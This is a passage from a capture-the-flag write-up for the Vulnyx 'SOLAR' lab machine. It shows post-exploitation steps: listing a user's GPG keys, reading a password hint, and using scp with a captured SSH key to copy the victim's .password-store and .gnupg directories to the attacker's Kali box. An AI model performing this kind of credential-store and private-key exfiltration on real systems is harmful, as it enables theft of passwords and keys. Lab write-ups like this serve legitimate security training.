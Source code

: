 
We find two private key files and various encrypted passwords managed by the `pass` password manager and stored in `.password-store`.

```bash
lenam@solar:~$ gpg --list-keys --with-keygrip
/home/lenam/.gnupg/pubring.kbx
------------------------------
pub   rsa3072 2024-08-29 [SC]
      E6DB2B029F01725397A555CD6CE6C909C038D50C
      Keygrip = 18DB29FBB15652340964CF0E1C710F34AA848ADD
uid           [ultimate] secret <lenam@solar.nyx>
sub   rsa3072 2024-08-29 [E]
      Keygrip = C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95

lenam@solar:~$ gpg --list-secret-keys --with-keygrip
/home/lenam/.gnupg/pubring.kbx
------------------------------
sec   rsa3072 2024-08-29 [SC]
      E6DB2B029F01725397A555CD6CE6C909C038D50C
      Keygrip = 18DB29FBB15652340964CF0E1C710F34AA848ADD
uid           [ultimate] secret <lenam@solar.nyx>
ssb   rsa3072 2024-08-29 [E]
      Keygrip = C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95

lenam@solar:~$ gpgconf --list-components
gpg:OpenPGP:/usr/bin/gpg
gpgsm:S/MIME:/usr/bin/gpgsm
gpg-agent:Private Keys:/usr/bin/gpg-agent
scdaemon:Smartcards:/usr/lib/gnupg/scdaemon
dirmngr:Network:/usr/bin/dirmngr
pinentry:Passphrase Entry:/usr/bin/pinentry
```

We see a GPG key belonging to the user "secret" with the email lenam@solar.nyx. The primary key is used for signing and certifying [SC], while the subkey is used for encrypting [E] data. Both keys never expire. The key's fingerprint is `E6DB2B029F01725397A555CD6CE6C909C038D50C`.

The 3072-bit RSA encryption is very strong and would be difficult to crack via brute force.

We also found a file with a note.

```bash
lenam@solar:~$ cat note.txt 
You just have to remember the one that starts with love and ends with a number.
```

We copied the `.gnupg` directories to the home directory on our machine (Be careful if you already have these folders; make a backup first to avoid losing your GPG keys) and also copied the `.password-store` folder.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ scp -ri id_ed25519_lenam lenam@192.168.1.168:~/.password-store .
Enter passphrase for key 'id_ed25519_lenam': 
.gpg-id                                                  100%    7     1.8KB/s   00:00    
user.gpg                                                 100%  471   168.5KB/s   00:00    
private_id.gpg                                           100%  471    93.7KB/s   00:00    
office.gpg                                               100%  463   108.3KB/s   00:00    
                                                                                           
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ scp -ri id_ed25519_lenam lenam@192.168.1.168:~/.gnupg ~/         
Enter passphrase for key 'id_ed25519_lenam': 
tofu.db                                                  100%   48KB   6.9MB/s   00:00    
pubring.kbx                                              100% 1954   562.6KB/s   00:00    
random_seed                                              100%  600   154.7KB/s   00:00    
gpg-agent.conf                                           100%   36     9.3KB/s   00:00    
trustdb.gpg                                              100% 1280   442.1KB/s   00:00    
```